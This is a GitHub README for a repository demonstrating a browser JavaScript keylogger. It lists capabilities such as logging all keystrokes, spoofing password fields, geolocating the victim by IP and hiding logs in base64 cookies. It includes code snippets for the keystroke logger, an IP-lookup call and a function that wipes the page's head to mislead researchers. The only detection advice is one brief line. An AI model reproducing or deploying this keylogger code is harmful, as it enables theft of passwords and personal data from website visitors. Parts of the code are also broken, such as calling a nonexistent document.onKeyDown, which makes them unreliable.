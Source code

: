 Javascript Keylogging
===

A repo with code illustrating the ease of writing keylogger in javascript.

**Why make this repo?**

Javascript is exploding. A lot of people like using ES6 with a transpiler, so ES5 and 'browser' js is less prevalent. Most people don't realize how much access to the client machine the browser gives the developer. This repo was me exploring that.

---

### What is the attack?

This is a very, very simple attack. It just goes to show it's not about the code, it's about the usage.

  * Logs all key inputs
  * Spoofs a real password field with text
  * Handles special keys (ALT, SHIFT, ENTER, etc) for easy readability 
  * Capture client IP and return location data, estimate exact location
  * Base64 encode the keylogs
  * Save all user data in base64 encoded cookie

### Examples

  * Example 1 - basic, barebones usage of the script
  * Example 2 - realistic order form for plane ticket
  * Example 3 - event based listening and logging

### How to detect?

  * **Use the JS profiler in DevTools** - check out the dev tools.



**Basic Keylogger**

```js
document.onKeyDown(function(e) {
  // IE
  e = e || event;
  // handle backspace
  if (e.key === backspace) {
    keys.length === 0 ? null : keys = keys.slice(0,-1) 
    } else if (modifierKeys.includes(e.key)) { null } else {
    keys.push(e.key);
  }
  // log keys, handle nil
  keys.length === 0 ? console.log('no keys, backspace') : console.log(keys.join(''))
})
```

**Get User Information**

```js
// Can replace with any IP tool of preference 
// -> empty callback for JSONP
$.getJSON('http://freegeoip.net/json/?callback=?', function(data) {
  console.log(JSON.stringify(data, null, 2));
});
```

**Clear the <HEAD> of Website**

Potentially smart attack to provide misleading source code to researchers.

```js
// Clear the HEAD tag of the website
function clearHead() {
  const _head = document.getElementsByTagName("head")[0];
  _head.innerHTML = ""
  // inject fake code
}

```


